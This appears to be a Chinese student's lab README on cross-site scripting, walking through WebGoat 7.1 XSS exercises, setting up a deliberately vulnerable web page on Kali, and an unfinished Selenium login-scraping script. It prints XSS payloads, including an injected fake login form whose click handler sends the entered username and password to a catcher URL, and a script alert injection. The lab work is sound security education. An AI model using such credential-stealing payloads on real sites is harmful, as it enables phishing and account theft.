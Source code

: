 # xxs-web
## 实验要求
- [x] 找一个具有xss漏洞的网页理解xss漏洞的原理。
- [x] 自己写一个具有xss漏洞的网页（推荐django）,包括登录页面和评论页面（每个用户都可以看到其他用户的评论内容、用户id、评论时间）
- [x] 写一个自动化脚本，使用selenium自动提交表单登录网站，进入论坛页面，并爬取论坛中的信息
## 实验步骤
### xss漏洞
#### 实验环境
kali虚拟机上使用webgoat(即：不是开发者版本)
![](images/dockerps.png)
firefox设置了代理并使用burp suite拦截流量。
![](images/proxy.png)
实验使用webgoat7.1,完成了第九章Cross-Site Scripting(XSS)的学习和练习
#### webgoat7.1-xss漏洞实验步骤
[webgoat攻略](https://www.cnblogs.com/yangmzh3/p/7542018.html)
##### 1. Phishing with XSS
目标：通过XSS添加一个表单让受害者输入用户名和密码，达到钓鱼的结果。
输入代码，搜索任意字符串尝试：```</form><form name="phish"><br/><br/><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br/><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR> ```
![](images/phishxss-1.png)
burp suite拦截结果如下：
![](images/phishxss-2.png)
根据题目要求搜索目标字符串，输入：```<form><br/><br/><HR><H3>This feature requires account login:</H3><br/><br/>Enter Username:<br/><input type="text" id="user" name="user"><br/>Enter Password:<br/><input type="password" name = "pass" id="pass"><br/><input type="submit" name="login" value="login" οnclick="var user=document.getElementById('user');var pass=document.getElementById('pass');alert('Had this been a real attack... Your credentials were just stolen. User Name = ' + user.value + 'Password = ' + pass.value);var XSSImage=new Image; XSSImage.src='http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&user='+ user.value + '&password=' + pass.value + '';"><br/><br/><HR></form>```,得到新的结果如下图，过关：
![](images/phishxss-2.png)
##### 2. LAB：Cross Site Scripting
###### 2.1 Stage 1:Stored XSS
目标：更改tom用户的信息（注入代码）,当Jerry用户访问的时候弹出弹窗。  
选择任意一个输入框，输入注入代码：```<script>alert('XSS')</script>```
![](images/lab1-1.png)
保存，登录'Jerry',访问Tom的资料，看到弹出框
###### 2.2 Stage 2:Block Stored XSS using Input Validation
目标：输入验证（采用过滤技术）阻止存储式xss攻击  
由于需要开发者版本，放弃
![](images/lab2-1.png)
###### 2.3 Stage3:Stored XSS Revisited
目标：使用另外两个用户('Bruce' 和 'David')访问，重复2.1的操作。正常情况由于有了2.2的操作，就不会再有弹窗，由于不是开发者版本，因此还会有弹窗。由于实验重复，没有复现的必要，进行下一步。
###### 2.4 Stage4:Block Stored XSS using Output Encoding
目标：输入验证（采用编码技术）阻止存储式xss攻击
![](images/lab4-1.png)
###### 2.5 Stage5:Reflected XSS
目标：方式和2.1一样，不同的是，2.1是更改存储的数据，当访问的时候弹出窗口，影响别人。这里是使用任意用户（比如Larry）登陆后，'searchfile'中注入代码，影响自己。
![](images/lab5-1.png)
得到效果，看到下方显示通过。
![](images/lab5-2.png)
![](images/lab5-3.png)
###### 2.6 Stage6:Block Reflected XSS
目标：仿照2.2开发防止反射式xss  
需要开发者版本，放弃。
![](images/lab6-1.png)
##### 3. Stored XSS Attacks
如下图输入注入代码
![](images/xssattack-1.png)
得到结果
![](images/xssattack-2.png)
##### 4. Reflected XSS Attacks 
如下图利用漏洞
![](images/xssattack2-1.png)
得到结果，并可以看到通关信息
![](images/xssattack2-2.png)
## xss-web网页搭建
[xss搭建教程](https://blog.csdn.net/u011781521/article/details/53895363)
使用kali搭建，scp将文件夹内容拷贝到kali
>xsserme文件夹,在config.php中更改数据库连接信息
* 由于之前搭建蜜罐无法ssh[解决办法](https://blog.csdn.net/qq_37458055/article/details/75205282)  

[kali安装mysql教程](https://www.cnblogs.com/faithfu/p/10278163.html)  
网页效果如下：
![](images/webpage.png)
## 自动化脚本
由于到提交时间我还没有做出来，我登陆爬取了别的网站，学习使用selenium。[代码来源](https://blog.csdn.net/chenpe32cp/article/details/54232353)登录以后发现已经和以前不一样了，因为现在登录进去以后增加了新的短信验证。
>spider.py

![](images/login.png)
